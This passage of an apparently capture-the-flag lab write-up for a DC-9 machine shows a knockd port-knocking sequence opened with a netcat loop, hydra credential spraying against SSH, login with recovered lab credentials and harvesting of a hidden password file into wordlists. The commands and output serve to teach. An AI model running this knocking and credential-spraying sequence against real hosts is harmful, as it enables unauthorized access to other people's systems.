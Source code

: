 ```console
        sequence    = 9842,8475,7469
        seq_timeout = 25
        command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

```

In the output we see a sequence of ports that we have to connect to open port 22 and the same way there's a secuence of ports to close it. I developed aconsole oneliner that tries to connect to the ports **7469 8475 9842**, and we can verify that the SSH service is enabled.

```console
root@kali:~$ for port in 7469 8475 9842; do nc 192.168.179.128 $port; done
(UNKNOWN) [192.168.179.128] 7469 (?) : Connection refused
(UNKNOWN) [192.168.179.128] 8475 (?) : Connection refused
(UNKNOWN) [192.168.179.128] 9842 (?) : Connection refused
root@kali:~$  nc 192.168.179.128 22
SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u1
```

### Access via SSH

Then we try to verify if the credentials found allow us to have access via SSH, for this I used hydra.

```console
root@kali:~$ hydra -C UserDetails ssh://192.168.179.128 
...
[DATA] attacking ssh://192.168.179.128:22/
[22][ssh] host: 192.168.179.128   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.179.128   login: joeyt       password: Passw0rd
[22][ssh] host: 192.168.179.128   login: janitor     password: Ilovepeepee
1 of 1 target successfully completed, 3 valid passwords found
```

Three valid credentials were found, of which accessing as the user **janitor** I found the directory **.secrets-for-putin** with a file containing a list of passwords.

```console
root@kali:~$ ssh -l janitor 192.168.179.128
janitor@192.168.179.128's password: 
janitor@dc-9:~/.secrets-for-putin$ cat passwords-found-on-post-it-notes.txt
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

This passwords are stored in the file **ssh_passwords** on the attacking machine, and we filter the usernames of the **UserDetails** file to store them in another file named **ssh_users**.

```console
root@kali:~$ cat ssh_passwords
BamBam01 
Passw0rd 
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
root@kali:~$ cut -d ":" -f 1 UserDetails > ssh_users
root@kali:~$ cat ssh_users
marym
julied
fredf
barneyr
tomc
```